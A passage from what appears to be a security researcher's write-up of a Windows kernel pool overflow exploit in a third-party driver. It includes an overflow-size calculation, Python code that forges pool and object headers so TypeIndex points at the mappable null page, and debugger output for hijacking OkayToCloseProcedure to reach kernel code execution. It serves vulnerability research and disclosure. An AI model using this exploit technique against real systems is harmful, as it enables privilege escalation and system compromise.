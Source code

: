 {% highlight python %}
.text:004199D3                 lea     ecx, [ebx+1Ch]       ; index offset for the first write
{% endhighlight %}

<p class="cn">We can do our overflow calculation like so. Let's say we want to overflow the buffer by 44 bytes (0x2c). We take the buffer size, subtract the header, subtract the starting index offset, add the amount of bytes we want to overflow and divide it all by 0x8 (due to the qword copy per loop iteration).</p>>

<p class="cn">(0x460 - 0x8 - 0x1c + 0x2c) / 0x8 = 0x8d</p>

<p class="cn">So a size of 0x8d will overflow the buffer by 0x2c or 44 bytes. This smashes the pool header, quota and object header.</p>

{% highlight python %}
    # repair the allocated chunk header...
    input += struct.pack("<I", 0x040c008c)     # _POOL_HEADER
    input += struct.pack("<I", 0xef436f49)     # _POOL_HEADER (PoolTag)
    input += struct.pack("<I", 0x00000000)     # _OBJECT_HEADER_QUOTA_INFO
    input += struct.pack("<I", 0x0000005c)     # _OBJECT_HEADER_QUOTA_INFO
    input += struct.pack("<I", 0x00000000)     # _OBJECT_HEADER_QUOTA_INFO
    input += struct.pack("<I", 0x00000000)     # _OBJECT_HEADER_QUOTA_INFO
    input += struct.pack("<I", 0x00000001)     # _OBJECT_HEADER (PointerCount)
    input += struct.pack("<I", 0x00000001)     # _OBJECT_HEADER (HandleCount)
    input += struct.pack("<I", 0x00000000)     # _OBJECT_HEADER (Lock)
    input += struct.pack("<I", 0x00080000)     # _OBJECT_HEADER (TypeIndex)
    input += struct.pack("<I", 0x00000000)     # _OBJECT_HEADER (ObjectCreateInfo)
{% endhighlight %}

<p class="cn">We can see that we set the TypeIndex to 0x00080000 (actually it's the lower word) to null. This means that that the function table will point to 0x0 and conveniently enough, we can map the null page.</p>

{% highlight text %}
kd> dd nt!ObTypeIndexTable L2
82b7dee0  00000000 bad0b0b0
{% endhighlight %}

<p class="cn">Note that the second index is 0xbad0b0b0. I get a funny feeling I can use this same technique on x64 as well :-></p>

#### Triggering Code Execution in the Kernel

<p class="cn">Well, we survive execution after triggering our overflow, but in order to gain eop we need to set a pointer to 0x00000074 to leverage the OkayToCloseProcedure function pointer.</p>

{% highlight text %}
kd> dt nt!_OBJECT_TYPE name 84fc8040 
   +0x008 Name : _UNICODE_STRING "IoCompletionReserve"
kd> dt nt!_OBJECT_TYPE 84fc8040 .
   +0x000 TypeList         :  [ 0x84fc8040 - 0x84fc8040 ]
      +0x000 Flink            : 0x84fc8040 _LIST_ENTRY [ 0x84fc8040 - 0x84fc8040 ]
      +0x004 Blink            : 0x84fc8040 _LIST_ENTRY [ 0x84fc8040 - 0x84fc8040 ]
   +0x008 Name             :  "IoCompletionReserve"
      +0x000 Length           : 0x26
      +0x002 MaximumLength    : 0x28
      +0x004 Buffer           : 0x88c01090  "IoCompletionReserve"
   +0x010 DefaultObject    : 
   +0x014 Index            : 0x0 ''                <--- TypeIndex is 0x0
   +0x018 TotalNumberOfObjects : 0x61a9
   +0x01c TotalNumberOfHandles : 0x61a9
   +0x020 HighWaterNumberOfObjects : 0x61a9
   +0x024 HighWaterNumberOfHandles : 0x61a9
   +0x028 TypeInfo         :                       <-- TypeInfo is offset 0x28 from 0x0
      +0x000 Length           : 0x50
      +0x002 ObjectTypeFlags  : 0x2 ''

[FuzzySec]: https://twitter.com/FuzzySec
[sickness416]: https://twitter.com/sickness416
[skylined]: https://twitter.com/berendjanwever
[ryujin]: https://twitter.com/ryujin
[hevd]: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
[windriver]: http://www.jungo.com/st/products/windriver/
[advisory]: /advisories/src-2017-0026
[exploit]: /pocs/src-2017-0026.py.txt
[beefs_tutorials]: http://www.fuzzysecurity.com/tutorials.html